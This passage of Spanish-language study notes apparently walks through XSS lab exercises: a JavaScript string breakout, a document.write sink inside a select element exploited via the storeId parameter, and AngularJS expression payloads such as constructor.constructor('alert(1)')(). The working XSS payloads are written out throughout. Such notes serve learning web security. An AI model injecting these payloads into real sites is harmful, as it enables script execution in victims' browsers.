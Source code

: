 ![[Pasted image 20230223200350.png]]

y se nos mostrara el `alert()`.

podriamos usar este payload:

```javascript
'-alert(1)-'
```

### (dom based) document write sink inside select element

una tienda tiene la opcion de calcular el stock de un producto:

![[Pasted image 20230223205832.png]]

si inspeccionamos el codigo fuente vemos la logica de JS:

![[Pasted image 20230223210102.png]]

1. se obtiene un parametro de la URL llamado **storeId** usando **window.location.search**
2. verifica si el valor no es nulo (si existe)
3. se usa el sink **document.write** para crear una etiqueta y concatenar el valor de **storeId** (valor controlado por el usuario)

vamos a comprobar colocando como valor `chris</option></select><h1>XSS</h1>`

```http
/product?productId=2&storeId=chris</option></select><h1>XSS</h1>
```

![[Pasted image 20230223210948.png]]

se interpreto las etiquetas, por lo que el siguiente payload mostrar un `alert`:

```html
<script>alert('xss')</script>
```

![[Pasted image 20230223211121.png]]

### (dom based) angularjs expression

Si se usa un framework como AngularJS, es posible ejecutar JavaScript sin paréntesis angulares ni eventos. Cuando un sitio usa el atributo `ng-app` en un elemento HTML, ejecutará JavaScript dentro de llaves dobles que pueden ocurrir directamente en HTML o dentro de atributos.

podemos validar que la pagina este utilizando la directiva `ng-app`:

![[Pasted image 20230224094527.png]]

existen ya payloads descubiertos que podemos colocar en cualquier campo de entrada:

```javascript
{{constructor.constructor('alert(1)')()}}

{{$on.constructor('alert(1)')()}}
```
